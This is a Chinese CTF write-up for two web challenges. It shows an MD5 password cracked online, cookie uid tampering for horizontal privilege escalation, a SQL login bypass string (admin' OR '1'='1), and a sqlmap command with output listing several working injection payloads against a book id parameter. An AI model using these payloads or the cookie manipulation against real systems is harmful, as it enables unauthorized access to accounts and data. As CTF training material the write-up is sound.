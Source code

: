 # Unboxing

![image-20250708163116174](/home/songsanggggg/ctfNote/CTF/.\assets\image-20250708163116174.png)

​	访问地址我们看到了如下页面，结合题目描述中申先生的账号 ID 是 6，密码的 md5 是 6d8fc80ae8d10ce7d179d9bef28df666，我们就可以获得一个登录账号密码。

​	本题目中的密码通过了md5加密，我们可以通过[md5在线解密破解,md5解密加密](https://www.cmd5.com/default.aspx)这个网站，进行解密，解密结果为kaihe。

![image-20250708163540224](/home/songsanggggg/ctfNote/CTF/.\assets\image-20250708163540224.png)

​	通过分析发现，在cookie中有一个uid值为6，怀疑该网站存在平级跨权访问漏洞，修改cookie的值为1，显示结果如下。

![image-20250708163721656](/home/songsanggggg/ctfNote/CTF/.\assets\image-20250708163721656.png)

​	依次访问我们就可以拿到flag。

​	开盒喵

# 图书馆

![image-20250708164521012](/home/songsanggggg/ctfNote/CTF/.\assets\image-20250708164521012.png)

​	本题目中直接把账号密码传入了sql语句，因此这里有了sql注入点，我们可以构造`admin' OR '1'='1`，这样sql语句就成了`SELECT * FROM users WHERE username = '`admin' OR '1'='1' AND password = ''，条件恒为1，这样就可以登录进入系统里。

​	进入系统之后就可以查看图书，其中访问图书的时候地址为`[图书馆系统 - 图书详情](http://hostname.com/book?id=1`，怀疑id传入的点有sql注入，于是添加'截断字符串，访问地址`http://hostname.com/book?id=1'`，页面输出`查询失败，请重试: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1")`，确认为sql注入点，开始注入工作。

​	之后我们使用注入工具sqlmap进行注入（当然我们也同样可以使用sqlmap来检测注入点）。

​	这里我们通过使用sql注入进入了系统，为了储存我们的登陆状态，我们有自己的cookie，在使用sqlmap时候我们可以使用如下语法`sqlmap -u "https://hostname.com/book?id=1" --cookie="COOKIE"`来检测注入点，输出如下：

```shell
[17:02:50] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] Y
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 5375=5375 AND 'cHSM'='cHSM

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x7162716b71,(SELECT (ELT(9581=9581,1))),0x7171717a71),9581) AND 'XkAv'='XkAv

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 4447 FROM (SELECT(SLEEP(5)))OBYc) AND 'mKpu'='mKpu

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x7162716b71,0x57785a53554b6a6651566b6155764a544858417671657750414e7054504450776c7a766c4c4c5461,0x7171717a71),NULL,NULL,NULL-- -
---
```
